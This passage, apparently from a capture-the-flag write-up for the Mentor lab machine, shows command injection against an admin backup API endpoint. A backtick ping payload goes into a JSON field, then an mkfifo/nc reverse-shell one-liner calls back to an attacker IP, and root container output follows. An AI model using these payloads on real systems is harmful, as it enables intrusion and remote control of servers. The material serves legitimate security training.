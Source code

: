 ```shell
}
SNIP

# returned output matches earlier discovered web path /admin/check and /admin/backup
curl 'http://api.mentorquotes.htb/admin/check' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0'
#--snip--#
{"details":"Not implemented yet!"}

# with trials: requesting with POST method, using an empty i.e {} data payload, discovered that /backup uses a post method and require a `path` field for the body.
curl -X POST 'http://api.mentorquotes.htb/admin/backup' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' \
-d '{"path":""}' -v   # see mentor02

# there appears to be an interaction of which this endpoint may be vulnerable to code or command injection. let's run some quick check for this vulnerability. start a horizontally spiltted terminal
# on terminal one
sudo tcpdump -ni tun0 icmp        # listen for icmp packet on tun0 interface

# on terminal two
curl 'http://api.mentorquotes.htb/admin/backup' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' \
  -d '{"path":"`ping -c1 10.10.14.85`"}'     # request the endpoint with a ping command as the path's value 
```

![Request Users Endpoint](/images/mentor/mentor02.png "Request Users Endpoint")

#### Exploitation
```shell
# we can confirm `/admin/backup` is command injectable. let's get a reverse shell. 

# on terminal one run an nc listener
nc -lvnp 9009

# on terminal two run
curl 'http://api.mentorquotes.htb/admin/backup' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0' \
-d '{"path":"`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.85 9009 >/tmp/f`"}'

# drops into a container shell
id    # uid=0(root) gid=0(root) groups=0(root) ...
hostname    # c853438556d9
ls -lah    # list content
#--snip--#
drwxr-xr-x    1 root     root        4.0K Nov 10 16:00 .
drwxr-xr-x    1 root     root        4.0K Mar 25 07:17 ..
-rw-r--r--    1 root     root        1.0K Jun 12  2022 .Dockerfile.swp
-rw-r--r--    1 root     root         522 Nov  3 12:58 Dockerfile
drwxr-xr-x    1 root     root        4.0K Nov 10 16:00 app
-rw-r--r--    1 root     root         672 Jun  4  2022 requirements.txt

# explore contents of all files and found 
find . -type f -exec ls -lah {} +; 2>/dev/null
```